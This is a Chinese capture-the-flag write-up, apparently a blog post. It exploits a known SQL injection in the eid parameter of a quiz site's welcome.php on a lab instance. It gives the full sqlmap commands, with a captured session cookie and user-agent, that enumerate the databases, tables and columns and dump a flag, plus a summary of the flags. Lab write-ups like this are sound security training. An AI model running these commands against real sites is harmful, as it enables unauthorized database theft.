









<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->

尝试注册账号，注册完成以后登录



根据提示



该SQL注入位于welcome.php处。但是参数根据CVE官方应该是通过eid参数的SQL注入，但是上述页面并不是eid参数，需要继续查找。



在此处发现eid参数



抓包找到所需要的参数，因为该页面需要登录访问，所以需要获得Cookie绕过身份验证，并添加-user-agent参数绕过客户端验证。




```
Cookie: PHPSESSID=25p9b92ovsqudtuepvmi7jgvma
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
```

Sqlmap进行攻击

```
 sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch --dbs
```

得到数据库



爆出数据库以后，进行爆表

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" --tables
```




得到表名再去爆破列名

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" --columns
```




继续爆破字段

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" -C "flag" --dump
```





总结

```
--cookie                        #绕过身份验证
--random-agent或--user-agent    #绕过客户端验证
--batch                         #默认后续sqlmap操作都为Y
--p                             #指定sqlmap注入的传参参数
```
